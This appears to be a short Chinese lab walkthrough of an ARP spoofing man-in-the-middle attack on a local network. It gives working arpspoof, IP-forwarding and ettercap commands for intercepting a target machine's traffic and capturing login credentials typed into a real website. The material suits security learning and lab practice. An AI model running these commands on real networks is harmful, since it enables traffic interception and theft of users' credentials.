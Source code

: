 
获取靶机ip    fping -g 192.168.255.1/24
得到靶机ip 192.168.255.151


查看默认网关  route -n
得到192.168.255.2 为局域网共用网关


利用kali自带工具进行arp欺骗使对方断网：

（Arpspoof -i 网卡 -t ip地址 网关

注意：2.0版本 arpspoof -i 网卡-t 网关 目标ip地址）

arpspoof -i eth0 -t 192.168.255.151 192.168.255.2


**开启IP转发功能，linux因为系统安全考虑，是不支持IP转发的，其配置文件写在/proc/sys/net/ipv4的ip_forward中。默认为0，接下来修改为1**

网关改为自己的ip,这样靶机仍然可以正常上网，方便后面查看数据包

arpspoof -i eth0 -t 192.168.255.151 192.168.255.153

使用kali自带工具 ettercap 嗅探

ettercap  -Tq -i eth0

![avatar](arp1.jpg)

![avatar](arp2.jpg)


随便找一个有登陆的ip用于测试 http://passport2.chaoxing.com/login

靶机在网页输入伪造的用户名密码

在kali查看

![avatar](arp3.jpg)

